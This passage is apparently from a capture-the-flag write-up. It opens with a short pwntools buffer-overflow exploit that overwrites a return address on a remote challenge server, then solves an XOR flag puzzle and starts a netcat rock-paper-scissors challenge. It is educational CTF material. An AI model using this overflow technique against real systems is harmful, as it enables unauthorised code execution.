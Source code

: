 ```python
from pwn import *

process = remote("thekidofarcrania.com", 4902)
process.recv()

process.sendline(b"\41"*60 + p32(0x08048586))

process.interactive()
```

## Misc

#### Help Bity

*Middle*

Discription:
Bity had the flag for his problem. Unfortunately, his negative friend Noty corrupted it. Help Bity retrieve his flag. He only remembers the first 4 characters of the flag: CTFL. Flag: BUGMdsozc0osx^0r^`vdr1ld|

The plain text: CTFL
The cipher text: BUGM
The order is "BC" "TU" "FG" "LM", so maybe it's xor.
Write a simple python program help_bity.py to solve it, then get `CTFLern{b1nry_1s_awes0me}`
But the flag isn't right, someone said that it is because the HTML show it in a wrong way. The ciphertext should be 

```
BUGMd`sozc0o`sx^0r^`vdr1ld|
```

Using this, finally I got the right flag.

#### Rock Paper Scissors

*Medium*

Description: Do you think you're lucky enough to win 10 games of Rock Paper Scissors in a row? Connect to the server and find out. nc 138.197.193.132 5001

First let's try it using whatever we want.

```
----------- Let's play rock, paper, scissors!
----------- Beat me 10 times in a row to win the flag!

Please choose: R / P / S
>>>R
You didn't win!
I chose R based on 2454155475
Please choose: R / P / S
>>>R
You won! Consecutive wins: 1
I chose S based on 139951793
Please choose: R / P / S
```
